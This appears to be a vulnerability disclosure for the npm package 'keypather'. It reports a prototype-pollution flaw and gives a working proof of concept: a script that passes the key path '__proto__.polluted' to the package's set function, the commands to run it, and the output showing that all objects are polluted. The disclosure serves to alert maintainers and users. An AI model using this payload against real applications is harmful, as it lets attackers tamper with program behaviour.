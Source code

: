 # Description

`keypather` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
const set = require('keypather/set')
var obj = {}
console.log("Before : " + {}.polluted);
set({}, '__proto__.polluted', 'Yes! Its Polluted');
console.log("After : " + {}.polluted);
```


2. Execute the following commands in terminal:

```
npm i keypather # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
